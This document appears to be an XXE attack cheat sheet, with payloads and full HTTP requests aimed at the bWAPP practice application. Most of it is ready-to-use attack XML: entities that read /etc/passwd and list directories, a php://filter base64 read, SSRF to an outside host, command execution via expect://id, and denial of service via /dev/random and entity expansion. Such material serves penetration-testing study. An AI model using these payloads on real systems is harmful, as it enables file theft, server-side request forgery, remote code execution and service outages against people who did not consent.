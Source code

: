 Get etc/passwd file
===================
__Payload:__


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE Header [<!ENTITY xxe SYSTEM "///etc/passwd" >]>
```

__Request:__


```http
POST /bWAPP/bWAPP/xxe-2.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: text/xml; charset=UTF-8
Referer: http://127.0.0.1/bWAPP/bWAPP/xxe-1.php
Content-Length: 150
Cookie: security_level=0; PHPSESSID=233c7b2e688f1941842f9bd424841db5
Connection: close

 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "///etc/passwd">]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>

```


Calling The Remote File
========================

__Payload:__


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://127.0.0.1/imx.txt" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

__REQUEST:__


```http
POST /bWAPP/bWAPP/xxe-2.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: text/xml; charset=UTF-8
Referer: http://127.0.0.1/bWAPP/bWAPP/xxe-1.php
Content-Length: 162
Cookie: security_level=0; PHPSESSID=233c7b2e688f1941842f9bd424841db5
Connection: close

 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://127.0.0.1/imx.txt" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```


Calling The Local File
======================

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE Header [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

OR

```xml
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

---


__Reading Files__


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
<name>&oops;</name>
</student>
```



__Listing Directories__


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///etc/ ">
]>
<student>
<name>&oops;</name>
</student>
```




__Base64 Conversion of Result__

```xml
<!DOCTYPE student [
<!ENTITY pwn SYSTEM "php://filter/convert.base64-
encode/resource=/etc/passwd">
]>
<student>
<name>&pwn;</name>
</student>

```



__XXE to SSRF__


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "http://scanme.nmap.org:20/">
]>
<student>
<name>&oops;</name>
</student>
```




__xxe to RCE__


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
<!ENTITY rce SYSTEM "expect://id">
]>
<student>
<name>&rce;</name>
</student>
```


__XXE to DOS__


```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///dev/random">
]>
<student>
<name>&oops;</name>
</student>
```




__XXE Quadratic blowup [DOS]__


```xml
<?xml version="1.0"?>
<!DOCTYPE student [
<!ENTITY x "xxxxxxxxxxxxxxxxx..."> (50,000-100,000)
]>
<student>&x;&x;&x;&x;&x;&x;&x;&x;&x;...</student> (50,000-100,00)
```

